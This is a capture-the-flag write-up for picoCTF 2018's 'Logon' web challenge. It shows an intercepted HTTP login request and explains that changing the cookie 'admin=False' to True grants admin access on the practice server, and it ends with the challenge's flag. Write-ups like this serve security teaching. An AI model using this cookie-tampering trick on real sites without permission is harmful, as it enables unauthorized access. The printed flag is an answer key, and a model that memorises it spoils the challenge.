 # Logon - 150 points

I made a website so now you can log on to! I don't seem to have the admin password. See if you can't get to the flag. [link](http://2018shell1.picoctf.com:6153)

Hints:

-  Hmm it doesn't seem to check anyone's password, except for admins?
- How does check the admin's password?



### Solution
###### Writeup by asinggih

We're presented with a standard login form, and we can always login with any random credentials, but a flag won't be displayed.

<p align="center"><img src="../screenshots/logon_0.png"></p>

<p align="center"><img src="../screenshots/logon_1.png"></p>

The sourcecode also does not show anything interesting. Hence, what i did next was to intercept the HTTP request using burpsuite, and see the request. Intercepting the login process gave me the request below:

```sh
GET /flag HTTP/1.1
Host: 2018shell1.picoctf.com:6153
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://2018shell1.picoctf.com:6153/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: password=; username=didi; admin=False
Connection: close
```

Changing the value of admin into True, logs us in as the admin

<p align="center"><img src="../screenshots/logon_2.png"></p>



## Flag
>picoCTF{l0g1ns_ar3nt_r34l_82e795f4}


